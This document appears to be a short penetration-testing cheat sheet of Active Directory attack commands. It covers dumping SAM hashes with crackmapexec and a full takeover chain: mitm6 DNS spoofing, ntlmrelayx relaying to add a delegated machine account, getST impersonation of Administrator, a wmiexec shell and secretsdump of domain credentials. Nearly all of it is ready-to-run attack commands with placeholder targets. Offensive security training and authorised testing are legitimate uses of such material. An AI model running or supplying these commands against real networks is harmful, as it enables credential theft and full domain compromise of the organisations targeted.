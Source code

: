 ### Dump Windows Password Hashes

Dump Hashes from machine

```
crackmapexec smb MACHINE-IP -u 'username' -p 'password' --sam
```

### Local Domain Admin Impersonation

Run tcpdump to know the DC

```
sudo tcp dump
```

Run mitm6 to fake the DNS

```
sudo mitm6 -d domain.com --no-ra
```

Run ntlmrelayx to catch creds and create machine with delegation

```
sudo python3 ntlmrelayx.py -ts -6 -t ldaps://dc01.domain.com --add-computer --delegate-access -wh wpad
```

Run getST to request tgt for DA

```
sudo getST.py -spn cifs/DEVOPSEMPLOYEE.domain.com domain.com/machine_name\$ -impersonate Administrator

```

export the TGT

```
export KRB5CCNAME=Pathtofilename
```

Use WMI to get shell to DA

```
wmiexec.py -k -no-pass DEVOPSEMPLOYEE.domain.com
```

Use secretsdump to dump domain creds

```
python3 secretsdump.py -k -no-pass DEVOPSEMPLOYEE.domain.com
```

### Scenario to Dump Credentials

run mitm6 to listen for the domain logins:

```
python3 mitm6.py -d GEMY.local
```
